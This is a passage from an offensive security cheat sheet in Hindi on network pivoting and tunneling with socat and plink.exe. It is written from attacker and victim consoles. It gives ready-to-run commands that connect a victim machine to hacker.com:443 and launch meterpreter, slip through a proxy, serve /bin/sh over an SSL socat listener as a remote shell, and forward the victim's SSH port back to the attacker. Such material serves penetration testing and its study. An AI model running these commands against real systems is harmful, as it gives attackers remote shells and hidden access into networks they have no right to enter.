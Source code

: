 ```bash
victim> socat.exe TCP-LISTEN:2222 OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5|TCP:hacker.com:443,connect-timeout=5
#Execute the meterpreter
```
आप एक **गैर-प्रमाणित प्रॉक्सी** को बायपास कर सकते हैं, इस पंक्ति को पीड़ित के कंसोल में अंतिम पंक्ति के बजाय निष्पादित करके:
```bash
OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5|PROXY:hacker.com:443,connect-timeout=5|TCP:proxy.lan:8080,connect-timeout=5
```
### SSL Socat Tunnel

**/bin/sh कंसोल**

दोनों पक्षों पर प्रमाणपत्र बनाएं: क्लाइंट और सर्वर
```bash
# Execute these commands on both sides
FILENAME=socatssl
openssl genrsa -out $FILENAME.key 1024
openssl req -new -key $FILENAME.key -x509 -days 3653 -out $FILENAME.crt
cat $FILENAME.key $FILENAME.crt >$FILENAME.pem
chmod 600 $FILENAME.key $FILENAME.pem
```

```bash
attacker-listener> socat OPENSSL-LISTEN:433,reuseaddr,cert=server.pem,cafile=client.crt EXEC:/bin/sh
victim> socat STDIO OPENSSL-CONNECT:localhost:433,cert=client.pem,cafile=server.crt
```
### Remote Port2Port

स्थानीय SSH पोर्ट (22) को हमलावर होस्ट के 443 पोर्ट से कनेक्ट करें
```bash
attacker> sudo socat TCP4-LISTEN:443,reuseaddr,fork TCP4-LISTEN:2222,reuseaddr #Redirect port 2222 to port 443 in localhost
victim> while true; do socat TCP4:<attacker>:443 TCP4:127.0.0.1:22 ; done # Establish connection with the port 443 of the attacker and everything that comes from here is redirected to port 22
attacker> ssh localhost -p 2222 -l www-data -i vulnerable #Connects to the ssh of the victim
```
## Plink.exe

यह एक कंसोल PuTTY संस्करण की तरह है (विकल्प ssh क्लाइंट के बहुत समान हैं)।

चूंकि यह बाइनरी पीड़ित में निष्पादित की जाएगी और यह एक ssh क्लाइंट है, हमें अपनी ssh सेवा और पोर्ट खोलने की आवश्यकता है ताकि हम एक रिवर्स कनेक्शन प्राप्त कर सकें। फिर, केवल स्थानीय रूप से सुलभ पोर्ट को हमारे मशीन के पोर्ट पर अग्रेषित करने के लिए:
```bash
echo y | plink.exe -l <Our_valid_username> -pw <valid_password> [-p <port>] -R <port_ in_our_host>:<next_ip>:<final_port> <your_ip>
echo y | plink.exe -l root -pw password [-p 2222] -R 9090:127.0.0.1:9090 10.11.0.41 #Local port 9090 to out port 9090
```
## Windows netsh

